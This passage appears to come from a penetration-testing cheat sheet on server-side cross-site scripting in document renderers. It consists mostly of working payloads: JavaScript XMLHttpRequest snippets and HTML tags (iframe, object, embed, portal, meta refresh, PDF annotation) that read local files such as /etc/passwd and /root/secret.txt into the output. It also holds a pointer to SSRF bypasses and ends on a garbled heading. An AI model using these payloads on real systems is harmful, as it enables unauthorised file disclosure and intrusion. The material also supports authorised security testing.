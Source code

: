 If SSRF is allowed, but you **cannot reach** an interesting domain or IP, [check this page for potential bypasses](../ssrf-server-side-request-forgery/url-format-bypass.md).
{% endhint %}
```markup
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(btoa(this.responseText))};
x.open("GET","file:///etc/passwd");x.send();
</script>
```

```markup
<script>
xhzeem = new XMLHttpRequest();
xhzeem.onload = function(){document.write(this.responseText);}
xhzeem.onerror = function(){document.write('failed!')}
xhzeem.open("GET","file:///etc/passwd");
xhzeem.send();
</script>
```

```markup
<iframe src=file:///etc/passwd></iframe>
<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<link rel=attachment href="file:///root/secret.txt">
<object data="file:///etc/passwd">
<portal src="file:///etc/passwd" id=portal>
<embed src="file:///etc/passwd>" width="400" height="400">
<style><iframe src="file:///etc/passwd">
<img src='x' onerror='document.write('<iframe src=file:///etc/passwd></iframe>')'/>&text=&width=500&height=500
<meta http-equiv="refresh" content="0;url=file:///etc/passwd" />
```

```markup
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```
### Bot jImej

